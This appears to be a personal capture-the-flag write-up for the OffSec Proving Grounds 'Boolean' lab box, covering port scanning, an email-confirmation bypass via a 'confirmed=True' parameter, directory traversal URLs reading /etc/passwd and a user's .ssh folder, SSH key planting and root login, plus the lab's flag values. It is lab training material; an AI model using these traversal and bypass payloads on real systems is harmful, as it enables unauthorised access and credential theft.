 ```yaml
---
Date: 2024-10-07
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.137.231
Writeup: https://medium.com/@raj.patel33605/boolean-offsec-proving-groundswriteup-8f626bbb1b3f
---
```

# Boolean
This was an absolute slog, and even the walkthroughs didn't help at the end. It was good to identify that BurpSuite would be used early on, but picking up and changing the "confirmed" element was tricky. Having the PHP reverse shell not work was incredibly frustrating too, but it was obvious something else would be needed when GoBuster wasn't showing where the uploaded files were being stored (obviously download only and not directly web accessible).

The real challenge here was figuring out the SSH keys. It's not something I've done a lot with so far, so figuring out how to generate them, renaming them `authorized_keys`, and uploading the correct one (public not private) was a challenge in itself. The truly frustrating part came from trying to switch to `root@127.0.0.1` and being told there'd been too many authentication failures. A little more research showed that it could be bypassed with the `-o IdentitesOnly=yes` option, but after so much frustration trying to sort the keys in the first place, I probably should have just walked away for awhile and come back to find answers instead of getting more frustrated.

On the plus side though, this box helped me sort out a lot of my internal notes so that they would be better used as cheat sheets in the future. Going through these boxes is certainly helping imbed the lessons I learned from the modules, so keep doing the boxes, keep taking notes, and keep refining your processes. 
# Resolution summary
- Nmap to find port 22, 80 & 3000
- Navigated to HTML site, registered user, used BurpSuite Repeater to bypass email authentication
- Uploaded PHP to attempt reverse shell but no success
- Used directory traversal to view `/etc/passwd` & identify user `remi`
- Used directory traversal to access `/home/remi/.ssh` and upload SSH key
- Used SSH to login as `remi` and print `local.txt`
- Navigated to `/home/remi/.ssh/keys` to find `root` SSH key
- Used `root` SSH key to switch to `root` user and print `proof.txt`
## Improved skills
- Generating and handling SSH keys, especially adding `-o IdentitesOnly=yes` and switching internally with `127.0.0.1`
- Identifying vulnerabilities with BurpSuite
## Used tools
- nmap
- BurpSuite Repeater
- MSFVenom
- SSH

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN boolean.nmap 192.168.137.231 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE  SERVICE VERSION
22/tcp   open   ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp   open   http
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-title: Boolean
|_Requested resource was http://192.168.137.231/login
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|_    Content-Length: 0
3000/tcp closed ppp
1 service unrecognized despite returning data.
```

---
# Enumeration

## Port 22 - SSH (OpenSSH 7.9p1)
No enumeration conducted
## Port 80 - HTTP
- Navigated to `http://192.168.137.231`, redirected to `http://192.168.137.231/login`
![[Pasted image 20241007115750.png]]
- Ran `gobuster` to enumerate directories: `gobuster dir -u  http://192.168.137.231 -w //usr/share/dirb/wordlists/big.txt`
![[Pasted image 20241007122544.png]]
- Used `gobuster` to further enumerate `filemaneger` directory with no results
![[Pasted image 20241007122952.png]]

---
# Exploitation
- Created user with credentials `offsec:password` & email `offsec@offsec.com`
![[Pasted image 20241007120904.png]]
- Presented with email confirmation page, so tried changing email to `kali@offsec.com` & inspected request in Burpsuite, identifying `"confirmed":false,` in response
![[Pasted image 20241007121135.png]]
- Modified request to include `&user%5Bconfirmed=True` and bypassed email confirmation
Request (Burpsuite)
![[Pasted image 20241007121404.png]]
Response (Browser)
![[Pasted image 20241007121501.png]]
- Identified upload facility, so created reverse shell with MSFVenom
![[Pasted image 20241007122001.png]]
- Successfully uploaded shell.php to target
![[Pasted image 20241007122029.png]]
- File path: `http://192.168.137.231/?cwd=&file=shell.php&download=true`
- Modified file path to `http://192.168.137.231/?cwd=&file=shell.php` - No change or shell established
- Attempted directory traversal to `/etc/passwd` file: `http://192.168.137.231/?cwd=../../../../../../../../../etc/&file=passwd&download=true`
![[Pasted image 20241007123838.png]]
- Identified user `remi`, and attempted to access user's `.ssh` directory: `http://192.168.137.231/?cwd=../../../../../../../home/remi&file=.ssh&download=true`
![[Pasted image 20241007124641.png]]
- Identified `local.txt` and accessed `.ssh/keys`
![[Pasted image 20241007124722.png]]
- Downloaded `root`, `id_rsa`, `id_rsa.1`, `id_rsa.2` SSH keys & attempted to crack password
![[Pasted image 20241007125655.png]]![[Pasted image 20241007130100.png]]
- Used `ssh-keygen` to generate an authorized key
![[Pasted image 20241007134705.png]]
- Uploaded newly generated key `authorized_keys` to target
![[Pasted image 20241007134727.png]]
- Used newly generated SSH key to login as `remi` user
![[Pasted image 20241007134925.png]]
---
# Lateral Movement to user
## Local Enumeration
- Found and printed `local.txt` = `c31ba66829a7cf0167219e30ea8d0f4f`
---
# Privilege Escalation
## Privilege Escalation vector
- Navigated to previously identified `/.ssh/keys` to find `root` SSH key
![[Pasted image 20241007141337.png]]
- Used SSH to switch to `root`: `ssh -i root root@127.0.0.1 -o IdentitiesOnly=yes`
![[Pasted image 20241007141449.png]]
- Navigated to `/root` to find `proof.txt`
![[Pasted image 20241007141603.png]]
---
# Trophy & Loot
`local.txt` = `c31ba66829a7cf0167219e30ea8d0f4f`
`root.txt` = `bc3be029a2e748ca228d49e7270d7a78`